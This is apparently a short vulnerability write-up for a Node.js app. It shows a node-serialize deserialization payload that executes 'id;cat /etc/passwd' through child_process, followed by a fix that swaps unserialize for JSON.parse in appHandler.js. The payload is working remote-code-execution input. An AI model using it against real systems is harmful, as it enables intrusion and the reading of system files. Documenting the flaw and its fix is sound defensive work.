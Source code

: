 
## Exploitation 

Json to exploit the vulnerability 
```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of
```json
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```


## Fix
---

Change the way we deserialize 

#### Changes to `appHandler.js`
```js
// Remove 
var products = serialize.unserialize(req.files.products.data.toString('utf8'))

// Add the following code		
var products = JSON.parse(req.files.products.data.toString('utf8'))
```


